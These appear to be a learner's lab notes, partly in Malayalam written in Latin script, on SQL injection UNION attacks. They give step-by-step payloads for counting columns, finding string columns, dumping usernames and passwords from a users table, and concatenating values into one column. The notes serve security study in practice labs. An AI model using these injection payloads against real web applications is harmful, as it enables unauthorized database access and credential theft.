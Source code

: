 ####  Using an SQL injection UNION attack to retrieve interesting data:
-->When you have determined the number of columns returned by the original query and found which columns can hold string data, you are in a position to retrieve interesting data.
-->athava oru table il 2 column und.athil randilum string type aanengil:
          -->'+UNION+SELECT+username, password+FROM+users--
NOTE: ivide column name,table name correct aayit thanne kodukanam

        Lab-3.c(practical-retreiving data from table)
		         ===============================
first we need to find how many columns are there
          -->'+UNION+SELECT+NULL--
second we need to find the column that contains string in it:
           -->' UNION SELECT NULL,'josu',NULL--
third we need to retrive username and password from users table:
           -->'+UNION+SELECT+username,password+FROM+users--
-->==oru karyam sredhikuka namal matoru table il (users)ninuman usernmae and passwords dump chyunath.so ingane chyumbol rand column thane aayirikanam currently ulla table il undayirikendath athupole columns randum string aayirikanam ok.ini athava oru column mathrame string support chyunenil ath adutha lab il nokiyal mathi ok.==
		
--------------------------------------------------------------------

                Lab-3.d(theory):
#### Retrieving multiple values within a single column:
-->multiple values oru column aayi aan result tharunathengil namuk athine concatenate chyth distinguish chyam like ||'~''|| (oracle il ingane chyam)
      -->'+UNION+SELECT+username+|| '~' ||+password+FROM+users--

           Lab-3.d(practical-retrievng multiple value in a single column)
		                   ===============================
 first we need to find how many columns are there
          -->'+UNION+SELECT+NULL,NULL--                     (2 column
second we need to find the column that contains string in it:
           -->'+UNION+SELECT+NULL,'abcor123'--     (2 column only contain num/text)
third we need to retrive username and password from users table:
           -->'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
     ivide aadyathe column il alla marich randamathe column il ninum aan namuk username,password kitunath.ath verthirkan aan namma aa symbol use chythath
-->Note that different databases use different syntax to perform string concatenation
	 
--------------------------------------------------------------------

          Lab-4 (## Examining the database):
	           ======================
     Lab-4.a(theory):
-->When exploiting SQL injectionvulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains.
#### Querying the database type and version:
-->Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.
                 